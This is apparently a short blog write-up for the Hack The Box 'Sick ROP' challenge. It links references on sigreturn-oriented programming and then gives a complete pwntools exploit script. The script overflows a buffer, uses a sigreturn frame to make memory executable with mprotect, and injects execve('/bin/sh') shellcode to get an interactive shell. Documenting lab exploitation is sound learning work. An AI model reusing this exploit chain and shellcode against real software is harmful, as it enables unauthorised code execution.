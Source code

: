 ```yaml
---
author: "lilith"
title: "HTB Sick ROP Writeup"
date: "2022-12-16"
description: "ROP chain through Sigreturn - a very different ROP approach that I learned today"
tags:
  - writeup
  - pwn
---
```


## About SROP 
- [Wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming)
- [Nightmare by Guyinatuxedo](https://guyinatuxedo.github.io/16-srop/index.html)
- [Amriunix Blog](https://amriunix.com/post/sigreturn-oriented-programming-srop/)

## Exploit
```py
from pwn import *

context.arch = "amd64"
e = ELF('./sick_rop')
r = process('./sick_rop')

syscall  = 0x401014
vulnFun  = p64(0x40102e)
vulnPtr  = 0x4010d8
virtual  = 0x400000

overflow = b'A'*40
getShell = """
push   0x42
pop    rax
inc    ah
cqo
push   rdx
movabs rdi, 0x68732f2f6e69622f
push   rdi
push   rsp
pop    rsi
mov    r8, rdx
mov    r10, rdx
syscall
"""
shell = asm(getShell)

frame = SigreturnFrame()
frame.rax = 10      # sys_mprotect
frame.rdi = virtual # Virtual Mem Segment
frame.rsi = 0x4000  # Size
frame.rdx = 7       # set rwx perm
frame.rsp = vulnPtr # pointer to vuln func
frame.rip = syscall # syscall addr

payload =  overflow + p64(e.symbols['vuln']) 
payload += p64(syscall) + bytes(frame)
r.sendline(payload)
r.recv()

r.send(b'A'*15)
r.recv()

payload = overflow + p64(vulnPtr+16) + shell
r.sendline(payload)
r.recv()

r.interactive()
```

![](images/sick-rop/shell.png)